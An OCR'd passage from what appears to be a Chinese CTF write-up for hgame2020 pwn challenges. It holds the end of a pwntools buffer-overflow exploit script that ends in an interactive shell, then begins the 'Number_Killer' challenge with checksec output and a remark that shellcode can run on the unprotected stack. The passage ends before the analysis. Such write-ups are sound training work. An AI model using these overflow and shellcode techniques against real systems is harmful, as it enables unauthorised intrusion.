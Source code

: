 ```python

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
backdoor = 0x8048636

# gadget
# elf, libc

# rop1
offset = 123
payload = 'A'*offset
payload += '0O0o\0O0'

ru("Let's 0O0o\\0O0!\n")
# debug('b *0x080485FD')
sl(payload)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```



### Number_Killer

 - 题目描述：看起来人畜无害的一些整数也能秒我？(吃惊)
 - 题目地址：[Number_Killer](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week1_2/Number_Killer) 
 - 考察点：整数shellcode
 - 难度：简单
 - 分值：100
 - 完成人数：77

首先查看程序的保护方式：

```shell
% checksec Number_Killer 
[*] '/home/taqini/Desktop/ctf/hgame2020/pwn/week1_2/Number_Killer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

什么保护都没有开，栈可执行，因此可以直接在栈中执行`shellcoode`

接下来分析程序，程序反编译结果如下：
